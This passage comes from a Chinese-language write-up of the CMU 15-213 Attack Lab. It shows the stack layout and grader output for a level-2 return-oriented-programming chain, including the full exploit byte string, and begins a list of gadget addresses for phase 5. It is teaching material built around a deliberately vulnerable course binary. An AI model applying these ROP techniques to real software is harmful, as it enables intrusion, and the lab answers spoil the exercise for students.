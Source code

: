 可见我们需要做的，设置 rdi 为 cookie ，只需要两步，一步 pop ，一步 mov 即可，而且答案不唯一。构造对应的栈：

```asm
[-------------------------------------code-------------------------------------]
=> 0x401b3b <addval_285+2>:     pop    rax
   0x401b3c <addval_285+3>:     nop
   0x401b3d <addval_285+4>:     nop
   0x401b3e <addval_285+5>:     ret
[------------------------------------stack-------------------------------------]
0000| 0x7ffffffdc300 --> 0x5815086a
0008| 0x7ffffffdc308 --> 0x401b48 (<getval_282+1>:      mov    rdi,rax)
0016| 0x7ffffffdc310 --> 0x40198b (<touch2>:    sub    rsp,0x8)
0024| 0x7ffffffdc318 --> 0xf4f4f4f4f4f4f400
0032| 0x7ffffffdc320 --> 0xf4f4f4f4f4f4f4f4
0040| 0x7ffffffdc328 --> 0xf4f4f4f4f4f4f4f4
0048| 0x7ffffffdc330 --> 0xf4f4f4f4f4f4f4f4
0056| 0x7ffffffdc338 --> 0xf4f4f4f4f4f4f4f4
[------------------------------------------------------------------------------]
```

可见接下来的一步是设置 rax ，然后跳转到下一个 Gadget 上，就是设置 rdi ，然后再跳到 touch2 ，完成整个 ROP 链。

结果：

```
Cookie: 0x5815086a
Type string:Touch2!: You called touch2(0x5815086a)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2017011484:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 3B 1B 40 00 00 00 00 00 6A 08 15 58 00 00 00 00 48 1B 40 00 00 00 00 00 8B 19 40 00 00 00 00 00
```

## 阶段 5

这个就是最难的一个阶段了，首先还是分析已有的各个函数，下面列举了阶段5可用的新的一些函数：

```asm
add_xy: 401b6f lea rax, [rdi+rsi*1]
addval_421: 401b7c mov edx, eax
addval_414: 401b84 mov esi, ecx
addval_269: 401b8a mov rax, rsp
setval_454: 401b91 mov rax, rsp; xchg eax, esp
getval_104: nope
setval_347: nope
setval_468: 401ba7 mov edx, eax
getval_128: nope
addval_343: 401bb2 mov ecx, edx; cmp cl, cl
getval_164: 401bb8 mov rax, rsp; xchg eax, ecx
setval_337: nope
addval_313: nope
getval_217: nope
addval_204: 401bd3 mov esi, ecx; xchg eax, esp
setval_490: nope
setval_474: 401be3 mov ecx, edx
setval_184: 401be8 mov edx, eax; add dl, dl
getval_498: nope
setval_422: 401bf5 pop rax; mov eax, esp
getval_444: nope
addval_122: nope
getval_458: nope
addval_352: nope
getval_336: 401c15 mov esi, ecx; xor dl, dl
```